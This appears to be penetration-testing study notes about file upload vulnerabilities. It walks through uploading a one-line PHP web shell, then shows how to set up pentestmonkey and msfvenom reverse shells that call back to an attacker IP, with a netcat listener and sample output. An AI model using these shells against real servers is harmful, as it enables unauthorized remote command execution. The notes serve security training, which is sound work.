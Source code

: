# File Upload Attacks

File upload vulnerabilities pose significant risks to web applications, arising from inadequate file validation and outdated libraries, enabling attackers to exploit this feature maliciously. Such attacks range from unauthenticated arbitrary file uploads, leading to remote command execution via web shells or reverse shells, to introducing vulnerabilities like XSS or XXE, causing Denial of Service (DoS), or overwriting critical files. Mitigating these risks involves implementing robust validation, secure filters, and avoiding outdated libraries, alongside adopting best practices to fortify applications against these threats.

---

# Absent Validation
- **Description**: Web application lacks validation filters, allowing unrestricted file uploads.
- **Risk**: Attackers can upload malicious scripts (e.g., web shells or reverse shells) to interact with the server directly.

### Arbitrary File Upload
- **Scenario**: A web application allows any file types without restrictions on the front-end or back-end.
- **Steps**:
  1. Upload malicious files like `.php` scripts.
  2. Access uploaded scripts via URLs to execute commands or gain control over the server.

### Identifying Web Framework
- **Objective**: Determine the programming language of the web application to upload compatible malicious scripts.
- **Techniques**:
  1. Check for file extensions in URLs (e.g., `.php`, `.asp`).
  2. Use tools like Burp Intruder or Wappalyzer for automation and detection.
  3. Run web vulnerability scanners like Burp/ZAP for further analysis.

### Vulnerability Identification
- **Testing Steps**:
  1. Create a basic script (e.g., ) and upload it.
     ```
     `<?php echo "Hello";?>`
     ```
  3. Confirm upload success by accessing the file URL (e.g., `/uploads/test.php`).
  4. Verify PHP code execution—if successful, the server lacks validation and executes uploaded code.

---

# Upload Exploitation

### Web Shells
- **Purpose**: Web shells enable attackers to interact with the back-end server, execute commands, and further exploit the system.
- **Options**:
  - **Pre-built Web Shells**:
    - Example: `phpbash.php` from phpbash or shells found in SecLists (`/opt/useful/seclists/Web-Shells` directory in PwnBox).
    - Upload the shell via the vulnerable feature and visit its URL (e.g., `http://SERVER_IP:PORT/uploads/phpbash.php`) to interact with the terminal-like interface.
  - **Custom Web Shell**:
    - Example:
      ```php
      <?php system($_REQUEST['cmd']); ?>
      ```
    - Usage:
      - Upload `shell.php` to the vulnerable application.
      - Execute commands using the `?cmd=` parameter (e.g., `http://SERVER_IP:PORT/uploads/shell.php?cmd=id`).
      - **Tip**: Use browser source view ([CTRL+U]) for better display of command outputs.
    - Limitations: May fail due to restricted functions or server-side security measures.

### Reverse Shells
- **Purpose**: Reverse shells provide an interactive connection back to the attacker's machine, allowing direct control of the compromised server.
- **Steps**:
  1. **Pre-built Reverse Shells**:
     - Reliable options: `pentestmonkey PHP reverse shell` or SecLists reverse shells.
     - Edit the script:
       ```php
       $ip = 'OUR_IP';     // CHANGE THIS
       $port = OUR_PORT;   // CHANGE THIS
       ```
     - Start a netcat listener:
       ```bash
       nc -lvnp OUR_PORT
       ```
     - Upload the script via the web application and visit its URL to execute it (e.g., `http://SERVER_IP:PORT/uploads/reverse.php`).
     - Successful connection:
       ```bash
       connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
       # id
       uid=33(www-data) gid=33(www-data) groups=33(www-data)
       ```
  2. **Custom Reverse Shell**:
     - Generate a script using `msfvenom`:
       ```bash
       msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
       ```
     - Start a listener and upload the script. Execute it to establish the connection:
       ```bash
       connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
       # id
       uid=33(www-data) gid=33(www-data) groups=33(www-data)
       ```
     - **Tip**: Reverse shells are generally more interactive and preferred over web shells. However, if outgoing connections are blocked by firewalls or necessary functions are disabled, web shells may serve as a fallback.

### Key Challenges
- **Web Shell Limitations**:
  - Functions like `system()` may be disabled.
  - Web Application Firewalls (WAFs) may block execution.
- **Reverse Shell Limitations**:
  - Firewalls may prevent outgoing connections.
  - Necessary functions might be disabled, requiring alternative exploitation techniques.

---
